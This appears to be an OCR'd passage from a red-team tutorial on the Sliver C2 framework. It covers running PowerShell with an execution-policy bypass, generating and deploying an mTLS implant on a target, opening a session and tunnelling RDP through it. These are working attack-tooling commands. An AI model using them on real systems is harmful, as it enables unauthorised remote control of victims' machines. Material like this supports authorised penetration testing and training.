 ```plaintext
shell powershell -ExecutionPolicy Bypass -Command "Get-Process | Out-File C:\Windows\Temp\processes.txt"
```

This command dumps a list of all running processes to `C:\Windows\Temp\processes.txt`.

### Conclusion
Running PowerShell scripts from Sliver is straightforward and can be done using the `shell`, `powershell`, or `execute-assembly` commands. Depending on your specific operational needs, you can choose the method that best suits your scenario. However, always ensure that you're operating within legal and ethical boundaries, particularly when testing or simulating attacks.

To use the Sliver C2 framework to create a tunnel that proxies an RDP session, you’ll need to follow these general steps:

### **1. Setup Sliver C2 Framework**
   - **Install Sliver:** 
     - Download and install the Sliver C2 framework on your attack machine. You can get it from the official [Sliver GitHub repository](https://github.com/BishopFox/sliver).
     - Run the Sliver server by executing `sliver-server` in your terminal.

### **2. Generate a Sliver Implant**
   - **Create the Implant:**
     - Generate a new implant (payload) that will be executed on the target system.
     - Use a command like:
       ```bash
       generate --mtls --save /path/to/save/implant.exe
       ```
     - Options like `--mtls` specify the type of communication (e.g., mutual TLS).

### **3. Deploy the Implant on the Target System**
   - **Deploy the Payload:**
     - Transfer the generated implant to the target machine.
     - Execute the implant on the target machine to establish a connection back to the Sliver server.

### **4. Establish a Tunnel in Sliver**
   - **Start a Session:**
     - Once the implant connects back, you will see it in the `sessions` list.
     - Interact with the session by using:
       ```bash
       sessions
       use <session_id>
       ```
   - **Create a Tunnel:**
     - Set up a tunnel that forwards traffic to your target’s RDP port.
     - Use the `tunnel` command:
       ```bash
       tunnel add --local 127.0.0.1:3389 --remote 127.0.0.1:3389
       ```
     - This command sets up a tunnel where traffic on your local machine’s port `3389` (RDP) is forwarded to the target’s RDP port.
